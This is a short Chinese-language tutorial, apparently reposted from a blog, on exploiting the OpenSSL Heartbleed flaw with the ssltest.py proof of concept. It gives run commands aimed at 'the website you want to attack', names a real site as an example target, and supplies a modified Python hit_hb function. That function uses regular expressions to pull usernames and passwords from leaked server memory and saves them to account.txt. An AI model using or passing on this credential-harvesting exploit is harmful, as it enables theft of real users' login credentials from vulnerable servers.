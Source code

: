 第一步：下载POC
SSLtest.py 　

第二步: 赋予执行权限(仅限Unix)
$ chomd +x ./ssltest.py
第三步：执行
$ ./ssltest.py 你要攻击的网站 -P SSL端口

一般SSL端口默认都是443.

如: $ ./ssltest.py passport.baidu.com

如果握手成功，服务器会 返回当前登录用户的 HTTP header 和Body. body你懂得。可以获取到当前登录的Form表单里的一切内容。
介于16进制的内容不方便查看，我就修改了下那个检测脚本，用正则表达式匹配出了用户名和密码的字段，可以支持直接存到文本里。

修改代码如下：

def hit_hb(s):  
    f=open('account.txt','a')
    s.send(hb)
    while True:
        typ, ver, pay = recvmsg(s)
        if typ is None:
            return False

        if typ == 24:
            username = re.findall(r"username=(.+?)&pass", pay)
            password = re.findall(r"&password=(.+?)&rand", pay)
            if username:
               f.write(username[0] +" "+password[0]+"\r")
            if len(pay) > 3:
              pass
            else:
              pass
            return True

        if typ == 21:
            print 'Received alert:'
            print 'Server returned error, likely not vulnerable'
            return False
会去 HTTP Body中匹配 username 和password字段，然后存到txt文本。 不同的网站，可能不同的字段名称，这个要酌情修改。


原文博客:
https://lostman.org/li-yong-openssl-heartbleed-lou-dong-jin-xing-xiu-tan-gong-ji/
